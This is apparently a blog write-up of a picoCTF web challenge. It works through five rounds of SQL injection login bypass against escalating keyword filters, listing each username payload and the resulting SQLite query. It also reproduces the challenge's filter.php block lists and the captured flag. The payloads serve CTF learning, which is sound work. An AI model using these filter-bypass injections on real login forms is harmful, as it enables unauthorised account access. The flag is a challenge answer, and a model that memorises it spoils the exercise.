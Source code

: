 ## Blog
https://frc6.com/index.php/archives/42/

## Source
https://play.picoctf.org/events/3/challenges/challenge/88

## Question
Can you beat the filters? Log in as admin 
http://jupiter.challenges.picoctf.org:50595/
http://jupiter.challenges.picoctf.org:50595/filter.php

It is actually execute the following sql in sqlite
SELECT * FROM users WHERE username='*[username]*' AND password='*[password]*'

## Attempts
attempts on http://jupiter.challenges.picoctf.org:50595/index.php
After the following attempts, it responds "Congrats! You won! Check out filter.php"

### Round 1 
filter: Round1: or
username: admin' --
password: 1 *(anything)*
SELECT * FROM users WHERE username='admin' --' AND password='1'

### Round 2
filter: Round2: or and like = --
username: admin'; /*
password: 1 *(anything)*
SELECT * FROM users WHERE username='admin'; /*' AND password='1'

### Round 3
filter: Round3:   or and = like > < --
Tips: there is a space char (" ") in the filter
username: admin';/*
password: 1 *(anything)*
SELECT * FROM users WHERE username='admin';/*' AND password='1'

### Round 4
filter: Round4:   or and = like > < -- admin
Tips: there is a space char (" ") in the filter
username: admi'||'n';
password: 1 *(anything)*
SELECT * FROM users WHERE username='admi'||'n';' AND password='1'

### Round 5
filter: Round5:   or and = like > < -- union admin
Tips: there is a space char (" ") in the filter
username: admi'||'n';
password: 1 *(anything)*
SELECT * FROM users WHERE username='admi'||'n';' AND password='1'

### You Won
![Round 6-5.png][1]

## Check out filter.php

    <?php
    session_start();
    
    if (!isset($_SESSION["round"])) {
        $_SESSION["round"] = 1;
    }
    $round = $_SESSION["round"];
    $filter = array("");
    $view = ($_SERVER["PHP_SELF"] == "/filter.php");
    
    if ($round === 1) {
        $filter = array("or");
        if ($view) {
            echo "Round1: ".implode(" ", $filter)."<br/>";
        }
    } else if ($round === 2) {
        $filter = array("or", "and", "like", "=", "--");
        if ($view) {
            echo "Round2: ".implode(" ", $filter)."<br/>";
        }
    } else if ($round === 3) {
        $filter = array(" ", "or", "and", "=", "like", ">", "<", "--");
        // $filter = array("or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
        if ($view) {
            echo "Round3: ".implode(" ", $filter)."<br/>";
        }
    } else if ($round === 4) {
        $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "admin");
        // $filter = array(" ", "/**/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
        if ($view) {
            echo "Round4: ".implode(" ", $filter)."<br/>";
        }
    } else if ($round === 5) {
        $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "union", "admin");
        // $filter = array("0", "unhex", "char", "/*", "*/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
        if ($view) {
            echo "Round5: ".implode(" ", $filter)."<br/>";
        }
    } else if ($round >= 6) {
        if ($view) {
            highlight_file("filter.php");
        }
    } else {
        $_SESSION["round"] = 1;
    }
    
    // picoCTF{y0u_m4d3_1t_d846125f7bdbf4d6e89cbc5edb6fa739}
    ?>

So, the Flag is `picoCTF{y0u_m4d3_1t_d846125f7bdbf4d6e89cbc5edb6fa739}`

  [1]: https://frc6.com/usr/uploads/2020/10/2029320702.png

